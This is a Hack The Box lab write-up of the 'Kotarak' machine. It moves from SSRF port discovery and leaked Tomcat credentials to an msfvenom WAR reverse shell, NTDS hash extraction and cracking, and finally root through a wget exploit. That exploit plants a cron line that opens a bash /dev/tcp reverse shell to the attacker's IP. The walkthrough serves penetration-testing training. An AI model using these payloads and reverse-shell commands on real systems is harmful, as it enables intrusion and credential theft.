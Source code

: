 # HTB - Kotarak

#### Ip: 10.10.10.55
#### Name: Kotarak
#### Difficulty: Hard

----------------------------------------------------------------------

![Kotarak.png](../assets/kotarak_assets/Kotarak.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.55 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 10:20 CDT
Nmap scan report for 10.10.10.55
Host is up (0.073s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2d7ca0eb7cb0a51f72e75ea02241774 (RSA)
|   256 e8f1c0d37d9b4373ad373bcbe1648ee9 (ECDSA)
|_  256 6de926ad86022d68e1ebad66a06017b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5 - Error report
| http-methods: 
|_  Potentially risky methods: PUT DELETE
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title:         Kotarak Web Hosting        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.93 seconds
```

The Kotarak Web Hosting on port 60000 seems linteresting, lets check that out first:

![site.png](../assets/kotarak_assets/site.png)

Trying to enter www.hackthebox.com in the search box fowrards us to: http://10.10.10.55:60000/url.php?path=www.hackthebox.com%2F

But if we search for 10.10.10.55:22 we get the message `SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch. ` So it does seem that the search feature is able to query ports on its localhost address. Lets see if there are any other ports open internally.

We can do this by fuzzing the site with a list of ports that may be open on localhost. I'll use wfuzz for this:

![fuzz.png](../assets/kotarak_assets/fuzz.png)

Nice, looks like we have a few more ports to investigate now. After poking around a bit I found some interesting materials at http://10.10.10.55:60000/url.php?path=127.0.0.1%3A888

![888.png](../assets/kotarak_assets/888.png)

Now if we input http://127.0.0.1:888/?doc=backup into the search on port 60000 and inspect the page source we find credentials for the Tomcat service running on port 8080:

![creds.png](../assets/kotarak_assets/creds.png)

Based on past experience with Tomcat I know the login can be found at 10.10.10.55:8080/manager/html

![login.png](../assets/kotarak_assets/login.png)

These credentials work and we can now authenticate to the site:

![tomcat.png](../assets/kotarak_assets/tomcat.png)

### Exploitation

From here lets generate a .war reverse shell file to upload to the server:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.48 LPORT=443 -f war > shell.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
```

We can upload the file and verify it loaded correctly:

![file.png](../assets/kotarak_assets/file.png)

Then with a NetCat listener listening, we can simply click on our shell file and catch the reverse shell back in NetCat:

```text
┌──(ryan㉿kali)-[~/HTB/Kotarak]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.55] 35576
whoami
tomcat
hostname
kotarak-dmz
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@kotarak-dmz:/$
```

Trying to grab the user.txt flag from user atanas' home directory, we get a permission denied:

```text
tomcat@kotarak-dmz:/home$ ls
atanas	tomcat
tomcat@kotarak-dmz:/home$ cd atanas
tomcat@kotarak-dmz:/home/atanas$ ls
user.txt
tomcat@kotarak-dmz:/home/atanas$ cat user.txt
cat: user.txt: Permission denied
```

Looking around more we find an interesting directory called `pentest_data` which contain .dit and registry files:

```text
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Lets copy these back to our attacking machine.

First we'll set up a Python server on the target and then use wget on our attacking machine to retrieve the files:

![wget.png](../assets/kotarak_assets/wget.png)

Now lets use impacket-secretsdump to extract some hashes

![dump.png](../assets/kotarak_assets/dump.png)

Nice, we've found a few. Lets grab the Administrator and the atanas hash and crack them in CrackStation:

![crack.png](../assets/kotarak_assets/crack.png)

Cool, that worked. Lets try to `su atanas` on the target:

```text
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
su: Authentication failure
tomcat@kotarak-dmz:/home/atanas$ su atanas
Password: 
atanas@kotarak-dmz:~$ whoami
atanas
```
Interestingly, the atanas password didn't work here, but the admin password did.

We can now grab the user.txt flag:

![user_flag.png](../assets/kotarak_assets/user_flag.png)

### Privilege Escalation

Looking around the machine and not seeing much, I noticed we have read access to some files in the root directory. 

```text
atanas@kotarak-dmz:/root$ ls
app.log  flag.txt
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
atanas@kotarak-dmz:/root$ cat flag.txt
Getting closer! But what you are looking for can't be found here.
```

Interesting, it appears IP address 10.0.3.133 is using wget to try and access a file every 2 minutes. This must be running as a cronjob.  

Looking at exploits for this version of wget we find: https://www.exploit-db.com/exploits/40064

First we'll need to upadte the wget-exploit.py portion of the script to:

```text
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.48/8888 0>&1' \n"
```

Next we'll want to get another working shell on the target (I just ran the .war file again with another listener set up).

Now lets start an ftpserver on the target:

```text
atanas@kotarak-dmz:/tmp$ authbind python -m pyftpdlib -p21 -w
```

From here lets set up a python HTTP server on our attacking machine and use wget to grab the exploit onto the target machine, and then use authbind to run it:

```text
atanas@kotarak-dmz:/tmp/...$ wget 10.10.14.48/wget-exploit.py
--2023-09-05 14:58:28--  http://10.10.14.48/wget-exploit.py
Connecting to 10.10.14.48:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2906 (2.8K) [text/x-python]
Saving to: ‘wget-exploit.py’

wget-exploit.py       0%[                    ]       0  --.-Kwget-exploit.py     100%[===================>]   2.84K  --.-KB/s    in 0s      

2023-09-05 14:58:29 (269 MB/s) - ‘wget-exploit.py’ saved [2906/2906]

atanas@kotarak-dmz:/tmp/...$ authbind python wget-exploit.py
```

With a listener set up on port 8888, we will eventually catch a shell back as the root user, and we can grab the final flag:

![root_flag.png](../assets/kotarak_assets/root_flag.png)

Thanks for following along!

-Ryan

